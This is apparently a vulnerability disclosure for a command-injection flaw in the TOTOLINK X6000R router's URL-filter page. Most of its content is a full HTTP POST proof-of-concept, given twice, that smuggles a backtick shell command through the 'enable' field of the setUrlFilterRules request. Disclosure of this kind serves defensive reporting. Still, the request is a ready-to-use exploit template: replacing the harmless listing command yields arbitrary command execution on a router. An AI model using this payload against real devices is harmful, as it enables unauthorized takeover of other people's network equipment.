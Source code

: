 # Summary
There is a command execution vulnerability in TOTOLINK X6000R(https://www.totolink.net/home/menu/detail/menu_listtpl/download/id/247/ids/36.html).

Affected component is "/advance/urlf.html".

# Details
Web front-end interface:
![image](https://github.com/user-attachments/assets/5bbfd2c7-028b-4812-ac0d-bbaa7d03e9d0)

Capture the packet and see the enable parameter, and do a blind test directly:
```HTTP
POST /cgi-bin/cstecgi.cgi?token=BB19D84941E95CCC HTTP/1.1
Host: ip:8081
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:127.0) Gecko/20100101 Firefox/127.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 61
Origin: http://ip:8081
DNT: 1
Sec-GPC: 1
Connection: keep-alive
Referer: http://ip:8081/advance/urlf.html?token=BB19D84941E95CCC
Priority: u=1

{"enable":"`ls >/web/poc_urlf.txt`","addEffect":"0","topicurl":"setUrlFilterRules"}
```
![image](https://github.com/user-attachments/assets/9e5d5508-6b95-4c79-8422-6685783c564b)

![image](https://github.com/user-attachments/assets/058ffc35-a4a3-41bf-a421-e5854e85b5d1)


# PoC
Capture the packet and see the enable parameter, and do a blind test directly:
```HTTP
POST /cgi-bin/cstecgi.cgi?token=BB19D84941E95CCC HTTP/1.1
Host: ip:8081
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:127.0) Gecko/20100101 Firefox/127.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 61
Origin: http://ip:8081
DNT: 1
Sec-GPC: 1
Connection: keep-alive
Referer: http://ip:8081/advance/urlf.html?token=BB19D84941E95CCC
Priority: u=1

{"enable":"`ls >/web/poc_urlf.txt`","addEffect":"0","topicurl":"setUrlFilterRules"}
```
![image](https://github.com/user-attachments/assets/9e5d5508-6b95-4c79-8422-6685783c564b)

![image](https://github.com/user-attachments/assets/058ffc35-a4a3-41bf-a421-e5854e85b5d1)
